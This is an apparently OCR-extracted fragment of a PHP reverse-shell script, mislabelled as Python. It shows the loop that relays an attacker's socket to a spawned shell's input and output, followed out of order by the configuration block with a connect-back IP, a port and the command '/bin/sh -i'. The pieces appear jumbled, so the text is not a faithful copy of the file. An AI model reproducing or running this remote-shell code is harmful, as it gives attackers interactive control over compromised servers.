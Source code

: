 ```python
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?><?php


set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
```